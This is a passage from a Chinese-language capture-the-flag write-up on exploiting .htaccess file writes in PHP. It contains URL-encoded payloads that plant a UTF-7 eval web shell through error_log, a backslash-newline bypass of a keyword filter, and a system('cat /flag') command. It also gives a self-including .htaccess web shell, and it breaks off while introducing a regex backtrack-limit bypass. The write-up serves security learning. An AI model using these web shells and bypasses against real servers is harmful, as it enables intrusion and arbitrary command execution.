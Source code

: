 解题过程如下。

- **第一步：写入 .htaccess error_log 相关的配置，将 payload 写入目标文件**

将上述内容进行url编码，然后构造 url 并执行：

```php
/index.php?filename=.htaccess&content=php_value%20include_path%20%22%2BADw%3Fphp%20eval(%2BACQAXw-POST%2BAFs-whoami%2BAF0)%2BADs%3F%2BAD4-%22%0Aphp_value%20error_log%20%2Ftmp%2Ffl3g.php%0A%23%20%5C
```

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146122065-3e78745c-48d5-460d-897f-5bfd0b6ab2d6.png#alt=img)

- **第二步：访问 index.php 触发报错留下 error_log**
- **第三步：写入 .htaccess 新的配置，将 include_path 选项设定为刚才生成的fl3g.php的目录,并配置解析的编码为 UTF-7**

```php
php_value include_path "/tmp"
php_fl\    # 这里使用\加换行的方式绕过对"flag"的过滤, 即php_flag zend.multibyte 1
ag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

将上述内容进行url编码，然后构造 url 并执行：

```php
/index.php?filename=.htaccess&content=php_value%20include_path%20%22%2Ftmp%22%0Aphp_fl%5C%0Aag%20zend.multibyte%201%0Aphp_value%20zend.script_encoding%20%22UTF-7%22%0A%23%20%5C
```

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146122637-802d9b03-74bf-4d65-ad91-53956c7511e5.png#alt=img)

- **第四步：构造如下读取flag**

```php
POST: whoami=system('cat /flag');
```

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146123212-d8f6f2fe-d631-452d-8972-0efa736025cf.png#alt=img)

如上图所示，成功执行命令并得到flag。

这个题也可以用通过包含 .htaccess 自身的方法Getshell：

```php
php_value auto_prepend_fi\
le ".htaccess"
#<?php @eval($_GET['cmd']); ?>\
```

### 正则回朔绕过正则匹配

[《PHP利用PCRE回溯次数限制绕过某些安全限制》](https:_www.leavesongs.com_penetration_use-pcre-backtrack-limit-to-bypass-restrict) 这篇文章中提到了一个正则回朔绕过 preg_match 检测的方法。即 PHP 的配置选项 pcre.backtrack_limit 给 pcre 设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match 会返回false，我们可以通过这一点来绕过 preg_match 等函数正则匹配的检测。

由于 .htaccess 可以设定 PHP 的配置选项，那我们便可以将 pcre.backtrack_limit 设为 0 ，从而利用这个漏洞：
